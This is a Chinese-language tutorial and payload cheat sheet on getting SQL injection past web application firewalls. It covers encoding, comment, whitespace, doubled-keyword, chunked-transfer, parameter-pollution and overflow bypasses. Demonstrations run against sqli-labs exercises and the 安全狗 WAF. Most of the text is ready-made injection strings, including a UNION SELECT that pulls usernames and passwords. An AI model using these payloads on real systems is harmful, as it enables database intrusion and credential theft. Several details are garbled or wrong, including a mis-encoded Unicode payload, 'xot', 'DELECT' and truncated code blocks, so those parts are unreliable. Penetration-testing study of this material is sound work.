

SQL注入绕waf
SQL注入绕WAF介绍
WAF（ Web Application Firewall ）Web应用防火墙。是针对 HTTP/HTTPS 的安全策略来专门为Web应用提供检
测和保护的一个网络安全产品。WAF可以增大攻击者的攻击难度和攻击成本。WAF会对我们在程序中输入 的参数
进行检测和过滤，当检测到危险的参数值时就会对我们进行拦截，甚至是IP封 禁。
而SQL注入绕WAF则是利用一些技巧绕过WAF的防御检测，以使SQL语句能成功的带入到数据库中执行。
绕过方式
汇总：
- 等价替换
- 大小写绕过
- 编码绕过
- N写绕过
- 空格字符绕过
- 内联注释绕过
- 更改请求方式
- 分块传输
- 参数污染
- 缓冲区溢出
- 随机数混淆
等价替换
在程序员开发过程中有可能会禁用一些函数或关键字而无法使用，因此可以通过等价或类似的函数或关键字来达到相同的效果
and -> &&
or -> ||
not -> !
xot -> |
= -> like
不等于 -> <>
group_concat() -> concat_ws()
sleep() -> benchmark()
hex()、bin() -> ascii()
mid() 、substr() -> substring()
updatexml 、extractvalue() -> polygon()
‘admin’ -> 0x61646D696E
大小写绕过
同等价替换一样，有些函数是在开发时写死，通过随机大小写的方式可以绕过WAF的字符对比检测。
此处展示为sqli靶场第27关源码
从源码知过滤了常见的sql注入所用函数，如select 、union
但是源码并未对用户输入做相关处理，因此可以利用禁用列表中没有的字符进行注入，如UnioN，SelEcT等
编码绕过
编码绕过的原理是，攻击者在注入时采用了一些特殊的字符编码方式，从而绕过WAF的检测过程。这种编码绕
过的思路就是利用特殊的字符编码方式，将恶意SQL语句转化为WAF规则无法匹配的形式。例如WAF通常会拦截union select，单个不拦截 ，一起就进行拦截；
常用编码切换
空格 -> %0a || %0A -> /**/
‘ -> %27
= -> %3d
常用编码格式
- URL编码
- 十六进制编码
- base64编码
- Unicode编码
1.针对单个关键字的绕过：
○ sel ̝ ect 程序过滤 ̝ 为空 脚本处理
○ sele/**/**ct 程序过滤//为空
○ ˺ !%53eLEct ˧ url编码与内联注释
○ se%0blect 使用空格绕过
○ sele%ct 使用百分号绕过
○ %53eLEct 编码绕过
2.单次编码
即将语句做一次编码，前提数据是通过WAF到服务器解析执行的过程仅执行一次解码动作，否则会因过度解码而造成语句无法数据库识别。
一次编码通常仅编码特殊字符
?id=1 union select database()
编码后?id=1%20union%20select%20database()
3.双重编码
即对于浏览器发送的数据进行了两次编码操作，如s做一次url编码是%73, 再进行一次编码是%25%37%33。一般情况下数据经过WAF设备的时候只会做一次url解码，这样解码之后的数据一般不会匹配到规则，达到bypass的效果。
?id=1 union select 1
第一次编码
?id=1%20union%20select%201
第二次编码
?id=1%2520union%2520select%25201
4.Unicode编码
IIS服务器支持对于unicode的解析，例如我们对于select中的字符进行unicode编码，可以得到如下的s%u006c%u0006ect，这种字符在IIS接收到之后会被转换为select，但是对于WAF层，可能接收到的内容还是s%u006c%u0006ect，这样就会形成bypass的可能。
| 字符 | Unicode编码 |
|---|---|
| a | %u0000 %u0041 %u0061 %u00aa %u00e2 |
| 单引号 | %u0027 %u02b9 %u02bc %u02c8 %u2032 %uff07 %c0%27%c0%a7 %e0%80%a7 |
| 空白 | %u0020 %uff00 %c0%20 %c0%a0 %e0%80%a0 |
| 左括号( | %u0028 %uff08 %c0%28 %c0%a8 %e0%80%a8 |
| 右括号) | %u0029 %uff09 %c0%29 %c0%a9 %e0%80%a9 |
N写绕过
一般情况下是通过双写来绕过WAF检测，同样是开发时写死的禁用函数
有时后端或WAF检测到禁用函数或关键字会将该字符串从语句删除，以清除SQL注入的威胁
当系统仅检测一次时可以使用双写绕过
如：union可以写成ununionion，在这串字符串中WAF可能会将其中的union删除只会保留最外层的union
当WAF会进行多次删除时，可以对禁用字符串多次嵌套来绕过检测，但通常如果三写绕不过的情况，嵌套再多也没用，因为WAF可能会重复删除。
空格字符绕过
有些WAF会检测语句中相关关键字之间的空格，那么我们通过替换的方式可以尝试绕过WAF
常见URL转码。
空格 %20
%09 TAB键（水平）
%0a 换行
%0d 回车
%a0 空格
常见用法
/**/代替空格
()代替空格
回车（url编码中的%0a）
``(两个反引号)
两个空格代替一个空格
TAB 代替空格
示例
1 | select/**/*/**/from/**/users; |
内联注释绕过
常用注释符
//, – , /**/, #, –+,– -, ;，–a
内联注释符 /**/ 。在MySQL中如果内联注释 /*!*/ 这样编写那么注释里面的内容将会被执行。
1 | /*!select database() */ |
内联注释就是把一些MySQL语句放在 /!…/中.
1 | select * from users where id=1 /*! !union select 1,2,3,4 */; |
内联注释常用方法
1 | --简单内联注释 |
更改请求方式
八种请求方式：
GET、PUT、POST、DELECT、HEAD、OPTIONS、CONNECT、TRACE
| 方法 | 描述 |
|---|---|
| GET | 请求指定的页面信息，并返回实体主体。 |
| HEAD | 类似于get请求，只不过返回的响应中没有具体的内容，用于获取报头 |
| POST | 向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST请求可能会导致新的资源的建立和/或已有资源的修改。 |
| PUT | 从客户端向服务器传送的数据取代指定的文档的内容。 |
| DELETE | 请求服务器删除指定的页面。 |
| CONNECT | HTTP/1.1协议中预留给能够将连接改为管道方式的代理服务器。 |
| OPTIONS | 允许客户端查看服务器的性能。 |
| TRACE | 回显服务器收到的请求，主要用于测试或诊断。 |
更换提交方式：为上传文件数据包类型
分块传输
分块传输 （Chunked transfer encoding） 是超文本传输协议(http) 中的一种数据传输机制，允许将HTTP数据包分为多个部分发送出去。
- 响应头设定：在HTTP请求头部，添加 Transfer-Encoding: chunked 来指明采用分块传输。
- 数据分块：数据被分割成一系列的小块（chunk）。每个块的格式如下：
- 块大小：每个块以十六进制形式指定其大小（字节数），之后是回车和换行符（\r\n）。
- 数据块内容：接下来是实际的内容数据，再次用\r\n表示块的结束。
- 终止块：传输结束时，服务器发送一个大小为0的块，表示传输完成。
示例：要向服务器传输“Hello，World!”
1 | POST / HTTP/1.1 |
注：POST方式才能进行分块传输，尾部需要添加两个换行
参数污染
介绍：HTTP参数污染即HPP（HTTP Parameter Pollution）
浏览器在和服务器进行交互的过程中，浏览器往往会在 POST/GET请求里面携带参数 ,这些参数会以 名称=值 形式出现，通常在一个请求中，同样名称的参只会出现一次。但是HTTP协议时允许同样名称的参数出现多次的。
id=1&id=2
如：http://192.168.10.1/?id=1&id=12 ,针对同名参数出现多次的情况，不同Web服务器处理的方式不一样，有些取第二个参数值，有的取第一个参数值，还有的服务器全取。这种特性在绕过一些服务端的逻辑判断时非常有用。
| Web服务器 | 参数获取函数 | 获取到的参数 |
|---|---|---|
| PHP/Apache | $_GET(“par”) | Last |
| JSP/Tomcat | Request.getParameter(“par”) | First |
| Perl(CGI)/Apache | Param(“par”) | First |
| Python/Apache | getvalue(“par”) | All(list) |
| ASP/IIS | Request.QueryString(“par”) | ALL(comma-delimited string) |
演示（php/Apache）http://192.168.174.147/hpp.php?id=1/&id=-1 union select 1,2,3 %23/
1 | <?php |

利用参数污染绕过安全狗
http: ˾ 192.168.174.135/sqli-labs-master/sqli-labs-master/Less-2/?id=1 /&id=-1 union select 1,2,3 %23/
缓冲区溢出
缓冲区溢出用于对付WAF，有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度，就会引发bug从而实现绕过
举例：
1 | ?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 |
示例0xA*1000指0xA后面”A”重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，在某些情况下可能不需要这么长也能溢出
随机数混淆
采用随机数混淆的策略可以让Payload在每次注入时都不同，从而增加了WAF检测的难度。同时，由于随机数的不可预测性，攻击者可以借助随机的结果来判断注入是否成功，而WAF却无法识别这一点。
示例Payload：
1 | ' UNION SELECT username, password FROM users WHERE id=1 AND 1=(SELECT RAND() < 0.5) -- |
使用RAND()函数生成0~1之间的随机数并与0.5比较，随机数小于0.5语句为：
UNION SELECT username, password FROM users WHERE id=1 AND 1=1
当生成的随机数大于等于0.5时，Payload会变成：
UNION SELECT username, password FROM users WHERE id=1 AND 1=0
对应代码执行成功和失败两种情况